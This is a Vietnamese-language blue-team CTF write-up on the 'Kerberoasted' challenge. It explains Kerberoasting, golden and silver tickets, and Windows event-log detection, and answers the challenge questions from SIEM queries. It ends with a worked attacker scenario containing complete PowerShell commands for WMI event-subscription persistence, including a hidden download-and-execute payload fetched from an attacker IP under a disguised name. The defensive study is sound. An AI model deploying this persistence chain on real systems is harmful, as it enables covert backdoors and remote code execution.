





---

[https://cyberdefenders.org/blueteam-ctf-challenges/kerberoasted/](https://cyberdefenders.org/blueteam-ctf-challenges/kerberoasted/)

# Kerberos {#3537b0eb61a480e0b584e2b8e0bfc1d5}

Nhắc lại một chút về kerberos

- Là giao thức authentication mặc định trong AD. Hoạt động trên cơ chế tickets để xác minh danh tính mà không cần gửi mật khẩu qua mạng

Các thành phần:

- KDC: trung tâm phân phối khóa thường là DC. Có 2 server:
	- AS (authentication server): vé ở cổng
	- TGS (ticket granting server): quầy vé cho từng khu vực
- TGT: Ticket granting ticket: Vé trọn gói để yêu cầu các vé dịch vụ khác
- SPN (service principle name): dịnh danh duy nhất cho một dịch vụ chạy trên máy chủ: MSSQLSvc/db-server.domain.com:1433

Luồng hoạt động:

- AS-REQ/AS-REP: User gửi yêu cầu xác thực đến AS. Nếu đúng thì AS trả về một TGT

- TGS-REQ/TGS-REP: user muốn truy cập một dịch vụ cụ thể như file share, SQL server. User gửi TGT đến TGS kèm số định danh SPN. TGS kiểm tra hợp lệ và trả về một vé dịch vụ Service ticket
	- TGS mã hóa một phần service ticket này bằng hàm băm mật khẩu của service account đang chạy dịch vụ đó

- AQ-REQ: user mang service ticket đến gặp server chứa dịch vụ để được cấp quyền truy cập

### Kerberoasting {#3537b0eb61a480c98a67f1a6c5ad0b0f}

Sẽ lợi dụng bước thứ 2: TGS-REQ/TGS-REP để đánh cắp hàm băm mật khẩu rồi crack offline

Cách kẻ tấn công thực hiện:

- Reconnaissance: kẻ tấn công đã có một tài khoản domain bình thường sẽ truy vấn active directory để lấy danh sách tất cả các tài khoản có cấu hình SPN tức là các service account
- TGS request: Kẻ tấn công dùng tài khoản bình thường đó để yêu cầu TGS cấp service ticket cho các SPN vừa tìm được. Kerberos không quan tâm user có thực sự được phân quyền dùng dịch vụ đó không, mà bất kỳ user nào cũng có thể yêu cầu cấp service ticket cho bất kỳ dịch vụ nào
- Ticket extraction: KDC trả về service ticket (TGS-REP) đã được mã hóa bằng mật khẩu của service account. Kẻ tấn công trích xuất ticket này vào bộ nhớ (dùng rubeus, impacket, hoặc mimikatz)
- Offline cracking: lưu ticket này thành một file và mang về máy tính đồng thời brute force, dictionary ra

### Tóm tắt lại luồng {#3537b0eb61a480529754f37ce138844e}

user đăng nhập đến AS, thành công thì sẽ được cấp cho một TGT

user tiếp tục muốn sử dụng một dịch vụ thì sẽ gửi TGT đến TGS (ticket granting server) kèm với số định danh server SPN, ví dụ như SQL server → đây là điểm yếu kiến trúc của kerberos khi không kiểm tra người dùng có quyền truy cập SQL server không mà vẫn cấp vé

- Sau khi được trả về service ticket (nhưng một phần service ticket lại được mã hóa bằng chính mật khẩu/hash mật khẩu của service account)
	- Nếu là người dùng chính thống thì sẽ cầm hash đi đến ví dụ như SQL server để truy cập
	- Còn hacker sẽ cầm đi về máy để brute force đoán mò mật khẩu để mở cái ticket trên.

### Phát hiện {#3537b0eb61a480e7aab6d288a845e5c7}

- EventID 4769 (a kerberos service ticket was requested): nếu xuất hiện hàng loạt trên một tài khoản bình thường thì là redflag
	- Event 4768 (TGT Request) logs when a client requests a Ticket Granting Ticket, indicating initial login.
	- Event 4769 (Service Ticket Request): khi user xin ticket từ TGS cho một service cụ thể
- Mã hóa RC4 (Ticket encryption type: 0x17): kẻ tấn công thường ép KDC trả về ticket được mã hóa bằng thuật toán RC4 thay vì AES-256 (0x12) vì RC4 dễ crack. Nếu eventID trả về ticket encryption type 0x17 thì nghi ngờ.

:::tip

Nói thêm chút về service account: không phải là tài khoản để người dùng đăng nhập
- Thường thì để một service chạy ngầm thì cần một account. Như sql server chạy thì cần một service account để windows cấp quyền cho nó

- Trong môi trường doanh nghiệp thì QTV thường tạo ra một tài khoản user bình thường trên AD (vd: domain\sql_svc_account), sau đó cấu hình cho phần mềm SQL server chạy dưới danh nghĩa của tài khoản này → `domain\sql_svc_account` là một service account

→ khi kerberoasting xảy ra thì sẽ tấn công bằng phương pháp này.

SPN được gán cho chính cái service account này
Ví dụ: Tài khoản `domain\sql_svc_account` sẽ được cấu hình một SPN là `MSSQLSvc/sql-server.domain.local:1433` _⇒ dịch vụ SQL ở địa chỉ này đang được quản lý bởi tài khoản_ _`sql_svc_account`__"_.

Theo quy định của AD thì bất kỳ user nào đăng nhập thành công cũng có thể dọc danh bạ AD (bằng giao thức LDAP) và xem được toàn bộ danh sách SPN này.

:::

## Phân biệt với golden ticket và silver ticket {#3537b0eb61a48046b400ef6e6378a7b1}

| Kerberoasting                                                       | Golden ticket                                                                                                                                      | Silver ticket                                                                                                                                     |
| ------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| Lợi dụng tính năng xin vé tới TGS Không chạm tới service server | Hacker có được mật khẩu của tài khoản krbtgt (phải lấy được quyền domain admin) tạo ra một tgt Từ TGT này thì hắn gửi tới bất kỳ TGS để xin vé | Bỏ qua KDC, tạo một service ticket để lừa service server Thay vì ra TGS xin vé, hacker tự tạo ra một ticket giả, đến khu service và vào được. |
| Xuất hiện eventID 4769                                              | Để lại dấu vết ở DC và service server                                                                                                              | Chiếm được quyền mà không để lại eventiId 4769. Nhưng để lại đăng nhập ở service log                                                              |

Golden ticket nguy hiểm ở chỗ nó thao túng PAC (privilege attribute certificate):

- Bình thường user chỉ là một nhân viên
	- Nhưng giả mạo được TGT hacker cho quyền lên Domain admin
- Khi cầm cái TGT này sang TGS thì nó sẽ cấp cho service ticket với quyền domain admin luôn.
- Khi cầm service ticket này sang SQL server chẳng hạn thì nó sẽ được quyền domain admin muốn làm gì thì làm với cái server này. Không chỉ với service mà tất cả server

TGT thật có thời hạn 10 tiếng, nhưng hacker có thể làm nó thành 10 năm

vì TGT này được tạo ra từ "con dấu" `krbtgt`, nó **không phụ thuộc vào mật khẩu của bất kỳ user nào**. Kể cả khi đội IT phát hiện bị hack và lập tức reset mật khẩu của toàn bộ Giám đốc (Domain Admin) trong công ty, thì cái Golden Ticket của hacker **vẫn hoạt động bình thường**.

Cách duy nhất là đổi mật khẩu của chính tài khoản krbtgt (đổi 2 lần)

### Q1 To mitigate Kerberoasting attacks effectively, we need to strengthen the encryption Kerberos protocol uses. What encryption type is currently in use within the network? {#3537b0eb61a480398c73d2d328b6d4eb}

ta kiểm tra thì encryption type 0x17 là RC4-HMAC

### Q2 What is the username of the account that sequentially requested Ticket Granting Service (TGS) for two distinct application services within a short timeframe? {#3537b0eb61a480dba986e45b6cc2de8e}

Ta tiếp tục dùng event.code: 4769 và kiểm tra tài khoản không phải tài khoản máy

johndoe không phải tài khoản máy mà lại quét liên tục từ

Oct 15, 2023 @ 18:41:58

Lưu ý các tài khoản máy với eventid 4769 mà service là krbtgt thì là đi xin TGT làm mới sau 10 tiếng - bình thường 

### Q3 We must delve deeper into the logs to pinpoint any compromised service accounts for a comprehensive investigation into potential successful kerberoasting attack attempts. Can you provide the account name of the compromised service account? {#3537b0eb61a48005a379e20ae4890160}

SQLService

Từ hình trên ta nghi vấn là SQLService và FileShareService đã bị tấn công

event.code: 4624 and winlog.event_data.TargetUserName: SQLService

ta biết ip của SQL server là 192.168.19.129

Ta thấy SQLservice là thằng bị đấm

Như vậy đến sáng hôm sau Oct 16, 2023 @ 07:48:38.457 thì SQLserver bị crack và hacker đăng nhập thành công

### Q4 To track the attacker's entry point, we need to identify the machine initially compromised by the attacker. What is the machine's IP address? {#3537b0eb61a480079920fb1d39e60605}

Oct 15, 2023 @ 17:56:03.354 đăng nhập lần đầu và liên tục với iP 10.0.0.154

### Q5 To understand the attacker's actions following the login with the compromised service account, can you specify the service name installed on the Domain Controller (DC)? {#3537b0eb61a4800ab148d67f32499db2}

10.0.0.135

event.code: (7045 or 4697)

### Q6 To grasp the extent of the attacker's intentions, What's the complete registry key path where the attacker modified the value to enable Remote Desktop Protocol (RDP)? {#3537b0eb61a480429865e74f2e142280}

Để bật RDP thì cần 

reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /

event.code: 13 and winlog.event_data.TargetObject: *_Terminal*_

Oct 16, 2023 @ 07:48:38.457

### Q7 To create a comprehensive timeline of the attack, what is the UTC timestamp of the first recorded Remote Desktop Protocol (RDP) login event? {#3537b0eb61a48037a49ef91f572faf86}

Oct 16, 2023 @ 07:50:29.151 máy của 10.0.0.154 RDP qua DC01

### Q8 To unravel the persistence mechanism employed by the attacker, what is the name of the WMI event consumer responsible for maintaining persistence? {#3537b0eb61a480d7a08ff167d6dd5865}

 WMI là windows management instrumentation là một hệ thống quản lý tích hợp của windows. Cho phép quản lý từ xa. Gồm 3 phần phục vụ cho persistence của hacker

- WMI event filter: là thành phần lắng nghe, hacker cài filter để báo cáo mỗi khi có USB cắm, hoặc mỗi 60 phút chẳng hạn
- WMI event comsumer: thành phần chứa câu lệnh độc hại. _Hãy chạy một đoạn mã PowerShell bí mật (thường là mã tải backdoor hoặc mở cổng kết nối ngược về máy hacker)"_

	Hai loại Consumer phổ biến nhất mà hacker hay dùng là:

	- `CommandLineEventConsumer`: Dùng để chạy một file `.exe`, `.bat`, hoặc PowerShell.
	- `ActiveScriptEventConsumer`: Dùng để chạy trực tiếp các đoạn script `.vbs` hoặc `.js`.
- FilterToConsumerBinding: Kết nối 1 và 2 lại với nhau.
- **Sysmon Event ID 19:** Khởi tạo Event Filter - lắng nghe sự kiện
- **Sysmon Event ID 20:** Khởi tạo Event Consumer (Mã độc). **&gt;hành động thực thi**
- **Sysmon Event ID 21:** Khởi tạo Binding (Kết nối chúng lại).

ta dùng event.code: 20 với nguồn sysmon

Oct 16, 2023 @ 07:58:06.389 Updater

Hacker cố tình đặt tên giống để lừa.

Nhưng làm sao biết 2 thằng này liên kết với nhau ngoài việc là thời gian chúng rất sát nhau → phải có event id 21

Nhưng trong trường hợp này chưa chạy được vì chưa có 

Sau khi giải mã 

### Q9 Which class does the WMI event subscription filter target in the WMI Event Subscription you've identified? {#3537b0eb61a480a4a0d1c9875ed2f28a}

Dùng event.code: 19

 "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND Targetinstance.EventCode = '4625' And Targetinstance.Message Like '%johndoe%'”

- `SELECT * FROM __InstanceCreationEvent`: WMI báo mỗi khi có sự kiện
- `WITHIN 60`: Chu kỳ 60s
- `WHERE TargetInstance ISA 'Win32_NTLogEvent'`: quan tâm tới event log
- `AND Targetinstance.EventCode = '4625'`: và mục tiêu là event id 4625
- `And Targetinstance.Message Like '%johndoe%'`: chỉ johndoe thôi

Hacker chỉ cần đăng nhập sai cho tài khoản johndoe lại có thể kích hoạt được consumer.

# Tổng kết {#3537b0eb61a480a9b4d1f370b5b05a6f}

## Phân biệt giữa WMIC (lateral movement) với WMI (persistence) {#3537b0eb61a480679cbbcf2265d0e878}

| WMIC (windows management instrumentation command-line)                                                           | WMI event subscription (MITRE ATT&CK T1546.00)                                                |
| ---------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| Là một công cụ có sẵn nằm ở C:\windows\system32\wbem\wmic.exe                                                    | Không dùng wmic.exe để gọi lệnh một lần                                                       |
| Đặc trưng nhận diện là: /node:IP_maykhac                                                                         | Lén lút ghi cấu hình vào kho dữ liệu WMI repository Cấu hình tự động chạy theo điều kiện  |
| Dấu vết lưu lại: eventid 4688, sysmon 1 chạy với tham số node, user, process call create Chạy 1 lần rồi thôi | Dấu vết để lại: sysmon event id 19, 20, 21                                                    |
|                                                                                                                  |                                                                                               |

## Kịch bản thực tế {#3537b0eb61a4809a8fe0d4f2f33d9fcf}

Context: hacker chiếm quyền admin trên DC01, muốn cài một cái backdoor reverse shell mỗi lần máy DC01 khởi động trong 3 phút thì nó tự động chạy

### Tạo filter - event id 19 {#3537b0eb61a480d5929ce71cca08bef4}

Hacker ra lệnh cho WMI: Báo động khi máy tính bật lên và bộ đếm thời gian chạm mốc 3 phút (180 giây).

`$query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 180"`

Ghi cái Cảm biến này vào kho WMI với cái tên ngụy trang là 'WindowsUpdateTask'.

`$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name = 'WindowsUpdateTask'; EventNameSpace = 'root\cimv2'; QueryLanguage = 'WQL'; Query = $query}`

### Tạo event consumer - event id 20 {#3537b0eb61a48021a1c6f4b7f7f498be}

Chứa lệnh mở cổng mạng 4444 kết nối về nhà (IP 10.0.0.99 của Hacker)

`$payload = "powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('`[`http://10.0.0.99/shell.ps1`](http://10.0.0.99/shell.ps1)`')"`

Tạo một Consumer dạng "CommandLine" và đặt tên ngụy trang giống hệt Filter cho dễ nhớ.

`$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name = 'WindowsUpdateTask'; CommandLineTemplate = $payload}`

### FilterToConsumerBinding - eventID 21 {#3537b0eb61a480a79226c60cc623edad}

Ra lệnh: Ê WMI, đem cái Filter 'WindowsUpdateTask' cột chung với cái Consumer 'WindowsUpdateTask' nhé.

`$binding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter = $filter; Consumer = $consumer}`

### Tại sao persistence này cao cấp {#3537b0eb61a4806ca215c8316407ac9e}

**ức mạnh tàng hình của WMI (Fileless Malware):**

1. Nó **không có file vật lý** nào trên ổ cứng. Cấu hình WQL này được giấu sâu bên trong file cơ sở dữ liệu nhị phân cực kỳ phức tạp của WMI (`C:\Windows\System32\wbem\Repository\OBJECTS.DATA`). Antivirus truyền thống quét ổ cứng sẽ bị mù hoàn toàn ở đây.
2. Nó **chạy dưới quyền SYSTEM** bởi tiến trình `WmiPrvSE.exe` (một tiến trình chuẩn của Windows). EDR nhìn vào chỉ thấy Windows đang tự làm việc của Windows, không có gì khả nghi.
3. Nó **chủ động kích hoạt (Event-driven)**. Giống như ví dụ trên, hacker có thể tự kích hoạt mã độc bất cứ lúc nào hắn muốn (bằng cách cố tình đăng nhập sai), chứ không phải chờ đợi thụ động.
